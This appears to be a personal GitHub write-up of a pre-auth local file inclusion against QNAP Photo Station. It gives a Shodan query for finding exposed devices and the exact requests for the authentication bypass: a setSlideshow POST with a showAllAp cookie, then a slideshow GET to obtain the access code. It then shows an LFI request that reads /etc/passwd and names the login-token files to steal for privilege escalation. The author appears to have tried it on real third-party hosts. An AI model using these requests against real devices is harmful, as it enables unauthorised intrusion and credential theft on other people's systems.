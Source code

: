 # qnap-2019-lfi-rce
### 

target: http://_**vulnerable-qnap-host**_:8080/p/api/video.php


Run shodan:

    shodan search 'Content-Length:580 "http server 1.0"' --fields ip_str,port --separator : --limit 10 > qnap_list.txt

Navigate to one:

![](.images/2020-05-22-22-28-14.png)

We need `CHECK_ACCESS_CODE` pre-auth before the vulnerability. Lets try with the photo album, and preserve _this_ memory.

![](.images/2020-05-23-11-31-21.png)

Check the `/photo/p/api/album.php`:

![](.images/2020-05-23-07-10-20.png)

We get a 401 from response. `Not Authorized`. But we will circumvent the auth (the main point).

Now we mock a POST request. With this body: `a=setSlideshow&f=qnpocAlbum`.

_You could_ also copy the initial request from the inspector as cURL and modify that. Add `showAllAp=true;` to cookie.

    POST /photo/p/api/album.php?a=setSlideshow&f=qnpocAlbum HTTP/1.1

Just remember to use header `'Content-Type: application/x-www-form-urlencoded'`

Assert the response is `HTTP/1.1 200 OK`.
    
    <?xml version="1.0"?>
    <QDocRoot version="1.0"><status>0</status><output>cJinsP</output><timestamp>2020-05-23 12:24:04</timestamp></QDocRoot>

Our album is using the ID: `cJinsP`.

The following sets `$_SESSION['access_code']` to the access code of the album we specify `?album=cJinsP`.

Let's GET it, and retain same cookie and headers:

    GET /photo/slideshow.php?album=cJinsP HTTP/1.1


Looking at the resulting javascript response, we see an `encodeURIComponent`. This is key. We're looking for the new encoded URI Component.

You will find this in the inspector -> Elements.

![](.images/2020-05-23-08-10-56.png)



### poc: pre-auth local file inclusion

Now that we have the `$_SESSION[‘access_code’]` value.

    POST /photo/p/api/video.php?album=cJinsP&a=caption&ac=MHwxfDE1OTAyNjc0Mzk=&f=UMGObv&filename=/etc/passwd


### poc: upgrade lfi to privilege escalation

Apparently the login token is stored in a <mark style="background-color: black">magic file</mark> located here <mark style="background-color: black">/etc/config/.app_token</mark>.

And PhotoStation caches a plaintext version of token_ex in `/share/Multimedia/.@__thumb/ps.app.token`

How quaint...
![](.images/2020-05-23-17-41-51.png)


> todo: continue into RCE

---
## Interesting

WELP. This host was already hosed. Lol.

![](.images/2020-05-23-08-11-55.png)


In the js script, I also found Ken Burns.

![](.images/2020-05-23-08-17-17.png)


## Final Thoughts
I will report any vulnerabilities or issues to the respective owner(s). I wonder if this is just a honeypot. Most are nowadays.

> @caretak3r